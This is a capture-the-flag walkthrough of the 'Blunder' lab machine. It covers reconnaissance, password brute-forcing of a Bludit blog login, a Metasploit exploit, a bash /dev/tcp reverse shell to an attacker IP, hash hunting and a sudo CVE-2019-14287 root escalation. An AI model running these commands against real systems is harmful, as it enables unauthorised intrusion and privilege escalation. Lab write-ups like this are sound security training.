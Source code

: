 # blunder

`NMAP`:

```text
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts
```

this box is a bit weird in its configuration, when I've tried to open the /admin page that we've go from fuzzing, it redirects to another IP, which is the box's IP like, `10.10.10.191` \(even when the box is a private machine which has some IP like `10.129.219.2`, So, i've had to spin this up in a VIP VPN

 from some fuzzing, we get some files, which are, todo.txt, robots.txt, admin, install.php. These four gives us a lot of information

```text
/install.php => Bludit is already installed ;)
/todo.txt => -Inform fergus that the new blog needs images - PENDING
/admin => confirms the application runnign here - bludit
```

so, this confirms us that we have something called `bludit` here, when we search for exploits for this

![](../../.gitbook/assets/screenshot-2021-08-23-at-22.46.31.png)

but we don't know the version yet, let's try to find out by browsing the Github page of `bludit`. I've browsed a bit in the `bludit` Github, to find this which reveals the version, if that file exists in the app root

{% embed url="https://github.com/bludit/bludit/blob/master/bl-plugins/version/metadata.json" %}

so, when we browse to that URL above from our app i.e `/bl-plugins/version/metadata.json`, we get the version. so, from the `searchsploit` results, we find that it has bunch of exploits, and all of them are authenticated exploits. if you remember, we've got a file before, `todo.txt`, which revealed us a username called `fergus`

so, after some fuzzing, there isn't much other than this `bludit` which we can really exploit, so we need to find a password for the `fergus` user to try and login into the admin page. So, lets use `cewl` for this now

`searchsploit -m php/webapps/48942.py` to get the exploit to the local machine. and now we can run this with the wordlist we generated with `cewl -d 7 -m 7 http://10.10.10.191/ -w pwd.list` and user as `fergus` to try our luck. \(I really didn't think this would work\)

![](../../.gitbook/assets/screenshot-2021-08-23-at-23.00.56.png)

so, now let's login into this page and see what it looks like, we can exploit in a min.

![](../../.gitbook/assets/screenshot-2021-08-23-at-23.32.36.png)

there is a `msf` exploit readily available, lets try that, and it works

![](../../.gitbook/assets/screenshot-2021-08-23-at-23.33.38.png)

hmm, lets get a normal shell from here, let's open a listener on our machine using `nc -lnvp 4242`, and run `bash -c 'bash -i >& /dev/tcp/10.10.14.14/4242 0>&1'` to get a reverse shell

now, I did spend quite some time here, without finding much and falling to rabbit holes. finally when we try to find the hashes in the `/var/www` directory, we can find that there are some hashes in the `users.php` somewhere inside which can be cracked using `crackstation`

```text
grep -iIER "[0-9a-f]{40}" /var/www/
```

and that will be the `hugo`'s password, after which `sudo -l` shows us what needs to be done. just

```text
sudo -u#-1 bash
```

this is a known exploit \(`https://nvd.nist.gov/vuln/detail/CVE-2019-14287`\) which I remember I've used this before, which occurs when there is a vulnerability in `sudo` and the permissions say this when you run `sudo -l`

```text
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

and once we run the above command, we are `root`.


